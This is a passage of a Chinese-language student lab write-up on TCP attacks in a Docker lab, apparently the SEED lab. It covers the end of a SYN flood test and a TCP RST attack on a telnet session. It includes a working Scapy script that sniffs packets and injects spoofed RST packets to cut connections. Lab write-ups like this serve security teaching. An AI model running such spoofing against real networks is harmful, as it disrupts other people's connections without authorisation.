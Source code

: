 ![image-20241120162443724](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120162443724.png)

发现

![image-20241120163003545](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120163003545.png)

发现虽然还在持续收到syn包

但user1可以telnet连接到victim

![image-20241120162720192](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120162720192.png)

### Task2. 对Telnet的复位攻击

利用seed-attacker作为攻击机，user1作为客户端，victim作为服务端

客户端telnet到服务端

```
docker exec -it user1-10.9.0.6 bash
telnet 10.9.0.5
```

![image-20241120184227016](C:\Users\29450\AppData\Roaming\Typora\typora-user-images\image-20241120184227016.png)

在主机中编写好RSTattack.py（自动攻击），通过volumes共享到攻击机

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
	ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
	tcp = TCP(sport=23, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq+1)
	pkt = ip/tcp
	ls(pkt)
	send(pkt, verbose=0)
	
f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-88413f1d34bf', filter=f, prn=spoof_pkt)
```

发现攻击机中没有python，但有apt

但是apt没有源，机器也没有vi，vim等文本编辑器

使用古老方法：

```
echo "deb http://mirrors.163.com/ubuntu/ precise main restricted" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise main restricted" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise-updates main restricted" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise-updates main restricted" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise universe" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise universe" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise-updates universe" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise-updates universe" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise multiverse" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise multiverse" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise-updates multiverse" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise-updates multiverse" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise-backports main restricted universe multiverse" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise-backports main restricted universe multiverse" >>/etc/apt/sources.list
echo "deb http://mirrors.163.com/ubuntu/ precise-security main restricted" >>/etc/apt/sources.list
echo "deb-src http://mirrors.163.com/ubuntu/ precise-security main restricted" >>/etc/apt/sources.list
```